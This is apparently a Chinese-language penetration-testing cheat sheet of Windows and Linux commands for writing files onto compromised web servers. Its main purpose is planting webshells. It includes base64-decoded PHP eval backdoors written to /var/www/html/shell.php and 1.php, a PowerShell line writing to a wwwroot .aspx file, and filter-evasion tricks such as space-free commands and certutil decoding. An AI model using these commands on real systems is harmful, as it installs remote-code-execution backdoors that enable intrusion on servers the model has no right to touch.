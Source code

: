  ### Windows
	读文本文件：
	>file = Get-Content "1.txt"
	>file
	写文件
	>powershell Set-content "1.txt" "wocao"
	&
	>powershell "write-output ([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String(\"d2Vic2hlbGw=\"))) | out-file -filepath c:\www\wwwroot\1.aspx;"
	或
	>set /p=^<?php phpinfo()?^><nul>c:\1.php
	或
	>echo ^<?php phpinfo()?^>>c:\1.php
	追加内容
	>echo 111>>c:\1.php
	不换行追加
	>set /p="222">>c:\1.php
	分段不换行追加
	>echo|set /p=\"PCFET0NUWVBFIGh0bWw+IDxodG1sPiA8aGVhZD4gPG1ldGEgaHR0cC1lcXVpdj0iQ29udGVudC1UeXBlIiBjb250ZW50PSJ0ZXh0L2h0bWw7IGNoYXJzZXQ9dXRmLTgiIC8+PGgxPjIwMjHlubR4eHjnvZHnu5zlronlhajlrp7miJjmvJTnu4M8L2gxPg==\" > D:\www\1.txt
	读/写入命令无空格
	>type;c:\1.php
	>echo.111>>c:\1.php
	>echo,111>>c:\1.php
	写入特殊字符
	>certutil -f -decode 1.txt C:\\1.php
	>certutil -decodehex 1.txt C:\\1.php
 ### Linux
  	>echo PD9waHAgZXZhbCgkX1BPU1Rbd2hvYW1pXSk7Pz4=|base64 -d > /var/www/html/shell.php
	>echo \<\?php eval\(\@\$_POST\[1\]\)\; \?\> >1.php